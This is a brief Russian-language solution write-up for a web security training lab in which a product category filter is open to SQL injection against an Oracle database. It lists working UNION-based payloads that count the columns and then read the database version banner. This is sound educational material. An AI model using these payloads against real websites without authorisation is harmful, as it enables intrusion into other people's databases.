 Эта лаборатория содержит уязвимость SQL-инъекции в фильтре категории продукта. Вы можете использовать атаку UNION для получения результатов из внедренного запроса.

Для решения лабораторной работы отобразите строку версии базы данных.

## Дано

уязвимость SQL-инъекции в фильтре категории продукта
базы данных Oracle


## Задача

отобразить строку версии базы данных


# Решение

- `GET /filter?category=Pets''` - уязвимость в данном запросе
- [Шпаргалка SQL](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- `GET /filter?category=Pets'+UNION+SELECT+NULL,+NULL+FROM+dual--` - выяснили что нужно 2 значения. Оба значения поддерживают string 
- `banner FROM v$version`
	`Pets'+UNION+SELECT+NULL,+banner+FROM+v$version--`
